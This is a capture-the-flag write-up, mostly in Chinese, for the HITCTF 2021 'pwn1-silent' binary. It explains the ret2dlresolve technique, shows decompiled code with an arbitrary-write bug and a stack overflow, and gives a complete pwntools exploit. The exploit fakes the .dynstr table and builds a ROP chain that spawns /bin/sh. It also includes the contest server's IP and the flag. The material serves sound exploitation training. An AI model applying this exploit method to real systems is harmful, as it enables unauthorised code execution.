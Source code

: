 # ret2dlresolve 2021 hitctf pwn1-silent

> challenge name: pwn1-silent
>
> file: pwn
>
> .i64 with comments provided
>
> writeup writer: hexhex16@outlook.com    https://github.com/kokifish 
>
> thanks yuxc liwl

`_dl_runtime_resolve`的具体过程建议看ctf-wiki Executable ELF 程序连接下的源码阅读部分。

大致过程为：

plt表中，先push一个函数`f`对应的offset，然后jmp到公共plt表（在函数plt表项上面），push `.got.plt`的首地址，然后jmp到`.got.plt`中的一个地址以调用`_dl_runtime_resolve`去查找函数`f`的真实地址并填到got表中，然后再调用`f`

在这题中的过程：

1. 在`bss_buf`构造假的`.dynstr`，把`read`替换为`system`，再存一个`/bin/sh`
2. 把`ELF Dynamic Information`中的`DT_STRTAB`存的`.dynstr`地址改为`bss_buf`的地址，这样调`_dl_runtime_resolve`时使用的`.dynstr`表就是`bss_buf`中存储的
3. 控制程序跳转到`read@plt`后，调`_dl_runtime_resolve`，把`bss_buf`作为`.dynstr`解析`system`符号在`libc`中的地址并填到`read@got`，然后`call read@got`实际调用的就是`system`，在此之前让`rdi`指向`/bin/sh`即可



```assembly
comm_plt    proc near   ; 这一段在.plt上
; __unwind {
               push    cs:p_got_plt ; .got.plt的首地址
               jmp     cs:qword_600B70 ; 跳转过去调用 _dl_runtime_resolve
 comm_plt      endp ; 上面这个就是公共plt表
               align 10h
               push    0 ; 某个函数的 .got.plt 表偏移
               jmp     comm_plt ; 跳转到公共.plt表
               push    1
               jmp     comm_plt
```

> 留一个坑：学习`_dl_runtime_resolve`的详细过程，调试在不同RELRO下的got表状态

# IDA Analysis

1. 向bss区上的一个buf写入32B
2. 读入8B，将这8B转换为int，向这个int表示的地址上写入任意8B，这里存在任意地址写（配合No PIE）
3. 向`stack_buf`写入88B，`stack_buf`在`rbp-0x30`处，存在栈溢出（配合No canary）

```cpp
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  int a_int; // eax
  char stack_buf[32]; // [rsp+0h] [rbp-30h] BYREF
  char nptr[16]; // [rsp+20h] [rbp-10h] BYREF

  setvbuf_ini();
  input_str(32, bss_buf);
  input_str(8, nptr);
  a_int = atoi(nptr);
  input_str(8, (char *)a_int);                  // 任意地址写8B
  input_str(88, stack_buf);                     // 栈溢出
  return 0LL;                                   // 0x40076D
}
```

```cpp
char *__fastcall input_str(int a1, char *buf)
{
  char *result; // rax
  int i; // [rsp+1Ch] [rbp-4h]

  for ( i = 0; i < a1; ++i )
  {
    read(0, &buf[i], 1uLL);
    if ( buf[i] == '\n' )
      break;
  }
  result = &buf[i];
  *result = 0;
  return result;
}
```

```bash
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

- No canary, No PIE, No RELRO

# exp

```python
from pwn import *
context.binary = "./pwn"
context.log_level = "debug"
IP = "47.106.219.36"
PORT = 10000
DEBUG = 1

elf = ELF("./pwn")

if DEBUG:
    p = process("./pwn")  #
    # attention: argv[1] for ./pwn when running with ./ld.so ./pwn
    base = p.libs()[p._cwd + p.argv[0].decode().strip('.')]  # fix bytes str error in py3.9
    print("base:", hex(base), p.libs())

else:
    p = remote(IP, PORT)  # HITCTF2021{Y0u_GOT_r0okie-re2dlresolve}


def ru(x): return p.recvuntil(x)
def se(x): return p.send(x)
def rl(): return p.recvline()
def sl(x): return p.sendline(x)
def rv(x): return p.recv(x)
def sa(a, b): return p.sendafter(a, b)
def sla(a, b): return p.sendlineafter(a, b)
def l64(): return u64(p.recvuntil("\x7f")[-6:].ljust(8, b"\x00"))  # python 3.9 pass


def debug(cmd=""):
    gdb.attach(p, cmd)


def dd():
    if DEBUG:
        cmd = ""
        cmd += "b *%d\n" % (0x4004f6)  # addr of .plt: push 0; jmp sub_4004E0 (dlresolve)
        cmd += "b *%d\n" % (0x40076c)  # leave ret
        cmd += "set $a=%d\n" % (0x600C00)  # bss_buf      0x600b68
        debug(cmd)


dd()
pause()

# === Step-1: 把假的.dynstr存到bss上可控buf中，同时存一个/bin/sh字符串
fake_STRTAB_temp = "\x00libc.so.6\x00stdin\x00puts\x00/bin/sh\x00\n"
fake_STRTAB = "\x00libc.so.6\x00stdin\x00system\x00/bin/sh\x00"  # fake ELF String Table .dynstr
print("fake_STRTAB==>", len(fake_STRTAB), fake_STRTAB) # system所在的地方原本为read
se(fake_STRTAB)  # bss_buf 0x600C00

# === Step-2: 把.dynstr的地址改成bss上可控buf的地址
se("6294032\n")  # 0x600A08+8 # addr of DT_STRTAB(.dynstr) # ori value: 0x400368
se("\x00\x0c\x60\n")  # nptr # 6294528 = 0x600C00 "\x00\x0c\x60\n" addr of bss_buf
# cover addr of .dynstr to controlable bss buf

# === Step-3: ROP: 把/bin/sh地址存到rdi后跳到read@plt，就会调_dl_runtime_resolve解析出system并调用
rbp = 0xdeadbeef
pop_rdi_ret = 0x00000000004007d3
bin_sh = 0x600C00 + 24  # addr of /bin/sh
# payload: pop rdi; ret; addr_bin_sh; .plt_read
payload = b"deadbeef".ljust(0x30, b"a") + p64(rbp) + p64(pop_rdi_ret) + p64(bin_sh) + p64(0x4004f6)
se(payload)
p.interactive()

```

